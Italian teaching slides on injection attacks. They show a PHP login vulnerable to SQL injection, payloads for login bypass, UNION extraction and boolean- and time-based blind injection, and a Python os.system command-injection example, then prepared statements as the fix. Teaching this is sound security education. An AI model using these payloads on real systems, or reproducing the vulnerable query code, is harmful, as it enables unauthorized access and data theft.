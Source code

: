 <!-- classes: title -->

## Cosa può andare storto? 

Cosa c'è di male in questo esempio?

<!-- fragments-start -->
```php
<?php
$mysqli = new mysqli("localhost","my_user","my_password","my_db");

// Perform query
$qr = "SELECT * FROM utenti WHERE username='" . $_GET["username"] . "' AND password='" . $_GET["password"] . "'" ;
$result = $mysqli -> query($qr);
fai_login($result -> fetch_row()[0]);

$mysqli -> close();
?>
```

```sql
SELECT * FROM utenti WHERE username='gigio' AND password='gigio'
--  $_GET["username"] = "gigio"; 
--  $_GET["password"] = "gigio"; 
```
```php
$_GET["username"] = "xxx' or 1=1 LIMIT 0,1 -- -" // Login bypass
$_GET["username"] = "xxx' UNION SELECT 1,2,3,flag,5 FROM flag -- -" // Accesso ad altre tabelle
// ... and much more!
```
```sql
SELECT * FROM utenti WHERE username='xxx' or 1=1 LIMIT 0,1 -- -' AND password='gigio'
SELECT * FROM utenti WHERE username='xxx' UNION SELECT 1,2,3,flag,5 FROM flag -- -' AND password='gigio'
```
<!-- fragments-end -->

---

# Le injections

**Non sono una cosa esclusiva di SQL!!!** Possono capitare in **QUALSIASI** interazione tra un linguaggio e l'altro, in generale non fidarsi mai dell'input utente!

Un esempio

```python
import os

input_utente = input("Cosa vuoi che ti stampi?")
os.system("echo " + input_utente)
```

---

## Come difendersi dalle injection?

- Escaping dei caratteri cattivi, sostituendo ad esempo `'` con `\'`
- Whitelist o blacklist dei caratteri (meglio la prima)
- Con mysqli, si possono usare i prepared statement (modo migliore)

---

## I prepared statements con mysqli

```php
<?php
$mysqli = new mysqli("localhost","my_user","my_password","my_db");

// Perform query
$qr = "SELECT * FROM utenti WHERE username=? AND password=?" ;
$stmt = $mysqli->prepare($qr);

// tipo valori, valore, valore
$stmt->bind_param("ss", $_GET["username"], $_GET["password"]);

$stmt->execute();
$result = $stmt->get_result(); // get the mysqli result

fai_login($result->fetch_assoc());

$mysqli -> close();
?>
```

---

## Tipi di SQL injections

- UNION Based (come abbiamo visto)
- Boolean Based
- Time Based

---

## Boolean Based

Si usano quando ciò che viene preso con la query non viene stampato, ma in qualche modo sappiamo dire se la query ritornata è vuota o meno

<!-- classes: bigquery -->
```sql
SELECT nome FROM utenti WHERE email='NOSTROINPUT'
SELECT nome FROM utenti WHERE email='pippo@disneyland.it' AND 1=(SELECT 1 FROM utenti WHERE id=1 AND password LIKE 'topol%')-- -'
```
---

## Time Based

Si usano quando ciò che viene preso con la query non viene stampato e non abbiamo modo di capire se il risultato è vuoto o mettono.

Si usa `SLEEP(SECONDI)` su MySQL e `randomblob(100000000)` su SQLite3

<!-- classes: bigquery -->
```sql
SELECT nome FROM utenti WHERE email='NOSTROINPUT'
SELECT nome FROM utenti WHERE email='pippo@disneyland.it' AND 1=(SELECT 1 FROM utenti WHERE password LIKE 'topol%') AND 1=randomblob(100000000)-- -'
```